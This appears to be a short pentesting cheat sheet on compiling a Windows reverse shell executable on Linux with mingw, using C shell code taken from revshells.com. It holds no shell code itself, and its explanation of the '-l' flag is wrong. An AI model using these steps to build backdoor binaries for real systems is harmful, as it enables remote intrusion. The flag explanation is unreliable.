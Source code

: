 # Shells creation

Install mingw on linux
```sudo apt install mingw-w64```
```sudo apt install gcc-mingw-w64```

Download the Cwindows(not c shell code) shell code filetype: **(CWindows)** from [revsehlls.com](https://www.revshells.com/) and save it to a file windows.c than run below command it will generate a reverse shell

```i686-w64-mingw32-gcc-win32 -std=c99 windows.c -o rsh.exe -lws2_32```

#### -l this option is used to statically link binaries or else its going to produce an error here we are statically linking lws2_32 dll file
